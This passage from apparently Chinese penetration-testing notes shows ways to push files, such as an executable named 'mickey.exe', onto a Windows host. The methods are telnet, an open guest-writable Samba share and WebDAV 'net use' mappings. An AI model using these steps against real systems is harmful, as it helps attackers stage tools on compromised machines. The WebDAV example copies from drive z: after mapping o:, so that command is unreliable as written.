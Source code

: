 然后我在 WIN 上执行

```
telnet 我的 LINUX 主机的 IP -f c:\mickey.txt 
```

这样就把我 linux 主机上的 mickey.txt 文件拷贝到 win 主机的 c 盘下了

#### 使用 SMB 传送文件:

情景假设,我是 LINUX 要传文件到 WIN 上去

首先我在本地的 LINUX 上配置好 SAMBA 服务

```
nano /etc/samba/smb.conf  
[hack]  
    comment = File Server Share  
    path = /tmp/  
    browseable = yes  
    writable = yes  
    guest ok = yes  
    read only = no  
    create mask = 0755 

service samba start 
```

然后我在 WIN 上执行

```
C:\>net use z: \\192.168.10.80\hack
copy z:\mickey.exe C:\mickey.exe 
```

#### 通过 WEBDAV 来传文件:

```
net use o: "http://192.168.200.18/uploads"  
copy z:\mickey.exe C:\mickey.exe 
```

也可以走 HTTPS

```
net use o: "https://192.168.200.18/uploads" 
```

但是需要在主机上开启 WebClient 服务,才能成功

```
net start WebClient 
```

下面是 Anthr@X 牛的,主攻 LINUX

## Linux

* * *
